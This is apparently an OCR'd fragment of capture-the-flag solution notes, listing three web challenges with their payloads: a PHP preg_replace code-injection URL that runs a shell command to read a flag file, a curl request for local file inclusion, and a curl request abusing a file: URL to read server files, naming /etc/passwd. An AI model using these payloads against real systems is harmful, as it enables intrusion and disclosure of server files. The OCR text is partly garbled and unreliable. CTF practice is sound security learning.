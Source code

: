 http://35.246.227.46:31872/index.php?vector=/Admin/e&replace=system(%22cat%20here_we_dont_have_flag/flag.txt%22)  Substitute


Curl –x ‘POST’ ‘http://IP/?start=’ –data ‘start=flag.php’ Alien-inclusion


File:/etc/passwd      File:/home/ctf/app.py
curl -X POST \
-H 'Host: company.tld' \
--data 'url=file:/home/ctf/app.py' \
http://34.141.113.155:32567/
                                                  LFI  Ultra-Crawler
